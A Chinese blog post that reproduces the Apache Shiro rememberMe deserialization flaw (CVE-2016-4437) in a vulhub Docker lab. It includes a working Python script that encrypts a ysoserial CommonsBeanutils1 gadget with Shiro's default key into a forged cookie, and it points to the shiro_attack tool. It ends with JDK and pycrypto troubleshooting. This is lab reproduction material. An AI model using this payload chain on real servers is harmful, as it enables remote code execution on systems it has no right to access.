






# shiro 反序列化漏洞(CVE-2016-4437)漏洞复现 docker 手工+工具 - Bin_Go - 博客园

> 原文：[`www.cnblogs.com/Bin-go/p/17718303.html`](https://www.cnblogs.com/Bin-go/p/17718303.html)



### 漏洞特征：

shiro 反序列化的特征：在返回包的 Set-Cookie 中存在 rememberMe=deleteMe 字段

### 靶场搭建

```
cd /vulhub-master/shiro/CVE-2016-4437
docker-compose up -d
访问 http://ip:8080
```

### 漏洞特征检测

BP 抓包发送，返回值存在特征值



###  漏洞复现

下载反序列化利用工具: ysoserial

```
https://jitpack.io/com/github/frohoff/ysoserial/master-SNAPSHOT/ysoserial-master-SNAPSHOT.jarp
```

生成 playload 代码

```
#poc.py
import sys
import uuid
import base64
from Crypto.Cipher import AES

def encode_rememberme():
    f = open('poc.ser','rb')
    BS = AES.block_size
    pad = lambda s: s + ((BS - len(s) % BS) * chr(BS - len(s) % BS)).encode()
    key = base64.b64decode("kPH+bIxk5D2deZiIxcaaaA==")
    iv = uuid.uuid4().bytes
    encryptor = AES.new(key, AES.MODE_CBC, iv)
    file_body = pad(f.read())
    base64_ciphertext = base64.b64encode(iv + encryptor.encrypt(file_body))
    return base64_ciphertext

if __name__ == '__main__':
    payload = encode_rememberme()   
    print("rememberMe={0}".format(payload.decode()))

```

使用 ysoserial 生成 CommonsBeanutils1 的 Gadget：

```
java -jar ysoserial-master-30099844c6-1.jar CommonsBeanutils1 "touch /tmp/success" > poc.sery

```

运行 poc.py 生成 playload，并将其替换 Cookie





 进入靶场目录

```
docker ps
docker exec -it 37ec3f93bcf9  /bin/bash
cd /tmp
ls
文件已经生成，漏洞成功复现
```


### 工具利用

```
工具地址：https://github.com/j1anFen/shiro_attack
使用
java -jar shiro_attack-2.2.jar 
```





 内存马


### 遇到的问题：

#### 问题一 class ysoserial.payloads.util.Gadgets (in unnamed module @0x4015e7ec) cannot access class com.sun.org.apache.xalan.internal.xsltc.trax.

Error while generating or serializing payload
java.lang.IllegalAccessError: class ysoserial.payloads.util.Gadgets (in unnamed module @0x4015e7ec) cannot access class com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl (in module java.xml) because module java.xml does not export com.sun.org.apache.xalan.internal.xsltc.trax to unnamed module @0x4015e7ec
at ysoserial.payloads.util.Gadgets.createTemplatesImpl(Gadgets.java:102)
at ysoserial.payloads.CommonsBeanutils1.getObject(CommonsBeanutils1.java:20)
at ysoserial.GeneratePayload.main(GeneratePayload.java:34)


 出现这问题原因是因为 jdk 版本太高导致的，与上面利用的 jar 包版本不对应

解决办法下载安装 jdk8，并修改默认

```
查看 kali 系统版本然后下载对应 jdk
uname -a

将 jdk 文件移动到  /usr/local
tar  -zxf  jdk-8u202-linux-x64.tar.gz           
mv  jdk1.8.0_202  /usr/local/                       

配置环境变量
vi /etc/profile
# 复制下面到文件末尾  注意 jdk 路径！！！ 
JAVA_HOME=/usr/local/jdk1.8.0_202
PATH=$PATH:$HOME/bin:$JAVA_HOME/bin
export JAVA_HOME
export PATH

注册安装 jdk8，依次执行以下三条命令，遇到提示就再执行一次
update-alternatives --install "/usr/bin/java" "java" "/usr/local/jdk1.8.0_202/bin/java" 1
update-alternatives --install "/usr/bin/javac" "javac" "/usr/local/jdk1.8.0_202/bin/javac" 1
update-alternatives --install "/usr/bin/javaws" "javaws" "/usr/local/jdk1.8.0_202/bin/javaws" 1

设置默认 jdk，遇到提示再执行一次
update-alternatives --set java /usr/local/jdk1.8.0_202/bin/java
update-alternatives --set javac /usr/local/jdk1.8.0_202/bin/javac
update-alternatives --set javaws /usr/local/jdk1.8.0_202/bin/javaws

载入 /etc/profile
source  /etc/profile       

java  -version                         #查看当前默认的 jdk 版本

javac  -version                        #查看当前 jdk 编译器版本
```

###  问题二安装 AES 加密解密时 Crypto 总报错

```
from Crypto.Cipher import AES ModuleNotFoundError: No module named 'Crypto'
```


解决方案

```
可能是安装顺序出错
卸载
pip uninstall pycrypto
pip uninstall Crypto

安装
pip install pycrypto
pip install Crypto

如果安装失败可以尝试下面这个，有可能 python3.x 版本已经不用上面这个了
pip install pycryptodome
pip install Crypto

```